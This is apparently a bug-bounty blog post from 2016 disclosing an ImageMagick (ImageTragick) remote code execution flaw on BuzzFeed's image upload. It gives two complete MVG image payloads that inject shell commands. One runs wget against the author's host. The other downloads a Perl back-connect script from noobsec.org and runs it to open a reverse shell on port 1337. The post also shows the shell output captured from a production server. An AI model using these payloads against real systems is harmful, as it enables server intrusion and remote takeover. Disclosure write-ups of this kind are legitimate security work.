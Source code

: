 ```yaml
---
layout: post
title:  "BuzzFeed Remote Code Execution Vulnerability"
date:   2016-07-27 17:00:00
categories:
    - project
tags:
    - Bug Bounty
    - RCE Vulnerability
    - HackerOne
---
```


We just found some vulnerabiliy on the Buzzfeed.com website. That vulnerabillity infected ImageMagick, an applications that used by Buzzfeed for processing an images that inputted by the user. Through the upload form in Buzzfeed page, an attacker can upload an image file that has been injected malicious by code.

**Infected URLs:**

https://www.buzzfeed.com/post

https://www.buzzfeed.com/settings



#### Malicious Code 1:

~~~
push graphic-context

viewbox 0 0 640 480

fill 'url(https://127.0.0.0/oops.jpg"; wget https://noobsec.org:1337/ping-me ;touch "hello)'

pop graphic-context
~~~


**Response:**

~~~
Connection from 54.208.98.54 port 1337 [tcp/menandmice-dns] accepted
GET /ping-me HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: 199.231.211.123:1337
Connection: Keep-Alive
~~~


#### Malicious Code 2:

~~~
push graphic-context

viewbox 0 0 640 480

fill 'url(https://127.0.0.0/oops.jpg"; cd /tmp && wget https://noobsec.org/backconnect.txt && mv /tmp/backconnect.txt /tmp/n00b.pl && perl /tmp/n00b.pl noobsec.org 1337 ;touch "hello)'

pop graphic-context
~~~


**Response:**

~~~
Connection from 54.87.231.104 port 1337 [tcp/menandmice-dns] accepted
/bin/sh: 0: can't access tty; job control turned off
$ uname –a
Linux buzzfeed-prod-web01 3.2.0-101-virtual [#141](/reports/141)-Ubuntu SMP Thu Mar 10 22:12:23 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
~~~

Exploit code above allow Buzzfeed's servers to connect to the noobsec.org's server through Port 1337, so an attacker can send a command shell to Buzzfeed server (Remote Code Execution).

Reference:

1. https://imagetragick.com/
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714
